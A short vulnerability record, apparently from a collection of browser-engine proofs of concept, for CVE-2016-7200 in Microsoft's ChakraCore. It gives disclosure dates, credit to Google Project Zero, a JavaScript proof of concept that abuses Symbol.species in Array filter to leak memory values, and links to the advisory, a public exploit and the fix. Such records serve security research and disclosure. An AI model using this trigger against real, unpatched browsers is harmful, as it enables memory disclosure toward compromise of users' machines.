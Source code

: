 # CVE-2016-7200

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var b = new Array(1,2,3);
var d = new Array(1,2,3);
d.length = 0x200000;
d.fill(7);
class dummy{
  constructor(){
    //alert("in constructor");
    return d;
  }
}

class MyArray extends Array {
  // Overwrite species to the parent Array constructor
  static get [Symbol.species]() {

    //alert("get");
    b[0] = {};
    return dummy;
  }
}

var a = new Array({}, [], "natalie", 7, 7, 7, 7, 7);

for(var i = 0; i < 0x200000; i++) {
  a[i] = i;
}

function test(i){
  return true;
}

a.__proto__ = MyArray.prototype;

var o = a.filter(test);
//alert(o);
var h = [];

for(item in o){
  var n = new Number(o[item]);
  if (n < 0){
    n = n + 0x100000000;
  }
  h.push(n.toString(16));
}

//alert(h);
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=922)
- [Exploit by Theori](https://github.com/theori-io/chakra-2016-11)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/55358e3c44c0ad83eb3b6e5a0b88d88a591afaa2#diff-49bb5a3c5aa249e3dcefd245e91df5f7R9286)
